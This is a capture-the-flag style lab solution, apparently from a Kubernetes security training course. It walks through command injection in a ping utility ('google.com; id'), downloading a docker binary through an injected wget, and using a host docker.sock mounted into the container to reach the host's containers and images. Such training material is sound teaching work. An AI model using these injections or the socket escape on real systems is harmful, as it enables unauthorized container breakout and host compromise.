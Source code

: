 # Docker escape using Pod Volume Mounts to access the node and host systems - Solution

* Navigate to the application `http://connectivity-check.oss-k8s-security.cloudsec.training`

* Login to the application using `username: sysadmin` and `password: superpowers`

![](images/app-login.png)

* Now try pinging `google.com`

![](images/ping-google.png)

* We can see that application is running the `ping` system command by looking at the output. Let's run some other system command by using a semicolon to separate two commands, as we know it's running in Linux system. For example, providing an input of `google.com; id` would trigger `ping -c 2 google.com;id` in the backend.

![](images/ping-google-id.png)

* Now that we have confirmed that the application is vulnerable to a command injection vulnerability. we can execute other commands and do other interesting stuff within this container.

* Let's explore the file system and other services. Start by looking inside the custom docker container.

```bash
;ls -l /custom/docker/
```

![](images/custom-docker-socket.png)

* Looks like the `docker.sock` is mounted from the host system as a volume mount

* Download the docker binary to access this socket and perform docker operations within the container

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-18.09.1.tgz -O /root/docker-18.09.1.tgz
```

![](images/download-docker.png)

* Now let's extract the binary to root system

```bash
;tar -xvzf /root/docker-18.09.1.tgz -C /root/
```

![](images/extract-docker-binary.png)

* Now, we can gain access to the host system by running the following docker commands

```bash
;/root/docker/docker -H unix:///custom/docker/docker.sock ps

;/root/docker/docker -H unix:///custom/docker/docker.sock images
```

![](images/host-docker-containers.png)

![](images/host-docker-images.png)
